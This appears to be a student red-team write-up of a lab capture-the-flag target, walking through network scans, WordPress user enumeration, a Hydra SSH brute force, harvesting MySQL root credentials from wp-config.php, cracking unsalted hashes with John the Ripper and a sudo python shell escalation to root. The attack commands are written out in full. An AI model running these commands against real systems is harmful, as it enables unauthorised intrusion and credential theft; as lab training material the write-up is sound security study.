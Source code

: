 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

A netdiscover scan revealed the below IP addresses to be on the network:

```bash
$ netdiscover -r 192.168.1.255-16
```

![Pen test - Kali netdiscover -r 192 168 1 255-16](https://user-images.githubusercontent.com/88017838/153582890-fdd92bcc-9d61-4bb7-9081-01d59983567f.PNG)

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sV 192.168.1.110
```

![Pen test - Kali nmap -sV 192 168 1 110](https://user-images.githubusercontent.com/88017838/153583803-da04ca70-fe0a-477d-8b35-e5a1054eeaa5.PNG)


This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/tcp   open  ssh OpenSSH 6.7p1 Debian5+deb8u4                     
  - Port 80/tcp   open  http Apache httpd 2.4.10 ((Debian))
  - Port 111/tcp  open  rpcbind 2-4 (RPC #100000)
  - Port 139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X
  - Port 445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X

Common Vulnerabilites and Exposures:

  - CVE-2021-28041 open SSH (Severity-7.1 High)
  - CVE-2017-15710 Apache httpd 2.4.10 (Severity-7.5 High)
  - CVE-2017-8779 rpcbind able to be exploited to initiate denial of service attack (Severity-7.5 High)
  - CVE-2017-7494 Samba remote code execution vulnerability (Severity-10 Critical)

### Critical Vulnerabilities:

The following vulnerabilities were found on Target 1:

- User Enumeration (Wordpress)
  - Able to obtain username details for michael and steven via 'wpscan'
  - Can then initiate brute force attacks to crack passwords for these users
  
- Weak Password
  - Brute force tools are able to easily crack user's password (password for user michael was 'michael')
  - Once the password was cracked, the attacker is able to SSH into the server

- Sensitive Data Exposure
  - Able to find a file with root user access details to MySQL database
 
- Unsalted Password Hashes
  - Password hashes located by viewing MySQL table data
  - These were unsalted and able to be cracked using 'John the Ripper' tool

- User Privilege Escalation
  - Able to utilise user steven's sudo privileges for python to escalate to root


### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

- Target 1

  - `flag1.txt`:{b9bbcb33e11b80be759c4e844862482d}
  
   - **Exploit Used**
    - WPScan was used to enumerate users on the Wordpress site for Target 1
    - **`wpscan --url 192.168.1.110/wordpress --enumerate vp,u`**

![Pen test - Kali WPS scan command](https://user-images.githubusercontent.com/88017838/153717305-6f93c63e-b549-4056-b2ce-85e0a36f9ae6.PNG)
![Pen test - Kali WPScan Users identified](https://user-images.githubusercontent.com/88017838/153717542-e785b810-839e-471f-9ee7-4b5890003b9e.PNG)

- SSH using michael's credentials:
  - Focusing on the user michael, I was able to run a Hydra brute force to quickly obtain his password, which as indicated below is a weak and easily crackable one
  - hydra -l michael -P /usr/share/wordlists/rockyou.txt 192.168.1.110 ssh -t 4
  - Using michael's credentials we can then SSH into 192.168.1.110 and located flag1 by following below steps:
  - **`cd /var/www/html`**
  - **`ls -l`**
  - after investigating multiple files, the flag1 was located via nano services.html
      
![Pen test - Kali Hydra michael](https://user-images.githubusercontent.com/88017838/153717654-754970ea-af9a-4c40-8590-47abebbd7194.PNG)
![image](https://user-images.githubusercontent.com/88017838/153718079-8aa99bb7-b2c8-4a1a-9f90-d25bed0ae648.png)


  - `flag2.txt`:{fc3fd58dcdad9ab23faca6e9a36e581c}
  
   - **Exploit Used**
      - While still logged in as michael via SSH I was able to locate flag2 by following the below
      - **`cd /var/www`**
      - **`ls -l`**
      - **`cat flag2.txt`**

![image](https://user-images.githubusercontent.com/88017838/153718231-699b0a91-8495-4810-923e-253e78175acc.png)


   - `flag3.txt`:{afc01ab56b50591e7dccf93122770cd2}
   
   - **Exploit Used**
       - Locating the wp-config.php file
       - cd /var/www/html/wordpress 
       - cat wp-config.php revealed the username and password for MySQL database
 
 ![Pen test - Kali wordpress wp-config php](https://user-images.githubusercontent.com/88017838/153732790-5ff99b27-2ed4-4702-9b26-3653a5056ecd.PNG)
 
 ![Pen test - Kali wordpress wp-config php cont](https://user-images.githubusercontent.com/88017838/153732794-7e93eee8-8755-4a89-ab8a-c6c2b0d47edf.PNG)

 - MySQL server:
   - Using the command mysql -u root -p and the credentials found in wp-config.php we were able to gain access to the MySQL server
   - The **`show databases;`** command reveals wordpress database which we can then access with **`use wordpress;`**
   - **`show tables;`** then reveals two unsalted password hashes for users michael and steven
   - **`select * from wp_posts;`** further investigation using this command reveals flag3
 
 ![Pen test - Kali mysql michael ssh](https://user-images.githubusercontent.com/88017838/153732968-d29dcfed-9f99-4c7c-a60a-c783c1961818.PNG)

 ![Pen test - Kali wp_posts user hashes](https://user-images.githubusercontent.com/88017838/153732974-8bdb86b1-9566-43fa-a6ac-8bb7eae7b6c1.PNG)

 ![image](https://user-images.githubusercontent.com/88017838/153733028-890cd68f-010e-4828-98d4-cb3f4b61703e.png)

   - `flag4.txt`:{715dea6c055b9fe3337544932F2941ce}
     
   - **Exploit Used**
       - Misconfigured privilege escalation and unsalted hashes from MySQL database
       - Using the hashes found previously in the MySQL database for michael and steven we extracted these to a wp_hashes.txt file and ran John the Ripper
       - **`john wp_hashes.txt
       - Once the hash for user steven was cracked we can SSH into 192.168.1.110 using password pink84
       - Here we ran **`sudo -l`** followed by **`sudo python -c 'import pty;pty.spawn("/bin/bash")'`** to escalate to root 
       - As indicated below, the exploit was successful and we were able to change to root and locate flag4
  
  
     
